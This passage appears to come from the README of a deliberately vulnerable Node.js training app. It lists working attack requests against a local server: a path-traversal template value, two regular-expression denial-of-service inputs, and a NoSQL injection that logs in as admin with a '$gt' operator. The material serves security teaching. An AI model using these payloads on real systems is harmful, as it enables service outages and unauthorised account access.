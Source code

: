 ```sh
curl -X 'POST' --cookie c.txt --cookie-jar c.txt -H 'Content-Type: application/json' --data-binary '{"email": "admin@snyk.io", "firstname": "admin", "lastname": "admin", "country": "IL", "phone": "+972551234123",  "layout": "./../package.json"}' 'http://localhost:3001/account_details'
```

Actually, there's even another vulnerability in this code.
The `validator` library that we use has several known regular expression denial of service vulnerabilities. One of them, is associated with the email regex, which if validated with the `{allow_display_name: true}` option then we can trigger a denial of service for this route:

```sh
curl -X 'POST' -H 'Content-Type: application/json' --data-binary "{\"email\": \"`seq -s "" -f "<" 100000`\"}" 'http://localhost:3001/account_details'
```

The `validator.rtrim()` sanitizer is also vulnerable, and we can use this to create a similar denial of service attack:

```sh
curl -X 'POST' -H 'Content-Type: application/json' --data-binary "{\"email\": \"someone@example.com\", \"country\": \"nop\", \"phone\": \"0501234123\", \"lastname\": \"nop\", \"firstname\": \"`node -e 'console.log(" ".repeat(100000) + "!")'`\"}" 'http://localhost:3001/account_details'
```

#### NoSQL injection

A POST request to `/login` will allow for authentication and signing-in to the system as an administrator user.
It works by exposing `loginHandler` as a controller in `routes/index.js` and uses a MongoDB database and the `User.find()` query to look up the user's details (email as a username and password). One issue is that it indeed stores passwords in plaintext and not hashing them. However, there are other issues in play here.


We can send a request with an incorrect password to see that we get a failed attempt
```sh
echo '{"username":"admin@snyk.io", "password":"WrongPassword"}' | http --json $GOOF_HOST/login -v
```

And another request, as denoted with the following JSON request to sign-in as the admin user works as expected:
```sh
echo '{"username":"admin@snyk.io", "password":"SuperSecretPassword"}' | http --json $GOOF_HOST/login -v
```

However, what if the password wasn't a string? what if it was an object? Why would an object be harmful or even considered an issue?
Consider the following request:
```sh
echo '{"username": "admin@snyk.io", "password": {"$gt": ""}}' | http --json $GOOF_HOST/login -v
```

We know the username, and we pass on what seems to be an object of some sort.
That object structure is passed as-is to the `password` property and has a specific meaning to MongoDB - it uses the `$gt` operation which stands for `greater than`. So, we in essence tell MongoDB to match that username with any record that has a password that is greater than `empty string` which is bound to hit a record. This introduces the NoSQL Injection vector.
